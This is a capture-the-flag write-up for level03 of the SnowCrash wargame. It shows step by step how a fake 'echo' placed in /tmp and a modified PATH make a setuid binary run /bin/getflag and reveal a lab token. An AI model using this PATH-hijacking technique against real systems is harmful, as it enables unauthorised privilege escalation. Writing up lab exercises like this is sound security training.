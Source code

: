
## --------------> Vulnerability

Privilege escalation Using PATH Variable

We have an executable with in our home directory.
```
level03@SnowCrash:~$ ls -l level03
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

Let's use the strings debugger to try to exploit the binary as instructed:

```
level03@SnowCrash:~$ strings level03 | grep "Exploit me"
/usr/bin/env echo Exploit me
```

We can see that the binary uses '/usr/bin/env echo' to print "Exploit me," so we'll do as suggested and exploit it.
we make  simple file called "echo" and have it call '/bin/getflag' when called. We will create it in '/tmp' due to permissions constraints.

```
level03@SnowCrash:~$ cd /tmp && echo '/bin/getflag' > echo
level03@SnowCrash:/tmp$ chmod 777 echo && ls -l echo
-rwxrwxrwx 1 level03 level03 13 Mar 11 23:37 echo
```
Go back to level03 home folder then add `/tmp` to the variable env `$PATH`

```
level03@SnowCrash:/tmp$ export PATH=/tmp:$PATH
level03@SnowCrash:/tmp$ printenv | grep "PATH"
PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Now we can re-execute `level03`

```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$ su level04
Password:
level04@SnowCrash:~$
```


